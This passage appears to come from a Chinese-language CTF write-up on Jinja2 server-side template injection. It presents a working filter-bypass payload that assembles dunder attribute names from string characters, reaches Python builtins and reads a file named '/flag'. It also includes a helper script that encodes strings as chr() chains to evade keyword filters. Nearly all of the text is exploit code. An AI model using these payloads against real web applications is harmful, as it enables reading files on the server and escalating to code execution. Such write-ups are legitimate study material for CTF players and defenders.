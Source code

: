 ```bash
{% set flag=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
{%print(x.open(flag).read())%}
```

[![在这里插入图片描述](assets/1698900310-0f2482b26f1d932cd44852c6ef4b589d.png)](https://storage.tttang.com/media/attachment/2022/08/14/452e0efa-110d-407c-81aa-f507843aea56.png)

[![在这里插入图片描述](assets/1698900310-56294ae9f7cb3893442eb9ad7ee78f27.png)](https://storage.tttang.com/media/attachment/2022/08/14/47e49c5b-327f-4c9e-94cd-2fec8504690a.png)  
最终 payload

```bash
name=
{% set a=(()|select|string|list).pop(24)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set flag=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
{%print(x.open(flag).read())%}
```

附赠一个字符串转换为 chr 小脚本

```bash
i= input("输入字符串：")
flag=""
for c in i:
    c= ord(c)
    b="chr(%d)" %(c)
    flag +=b+'%2b'
print(flag[0:-3:1])
```
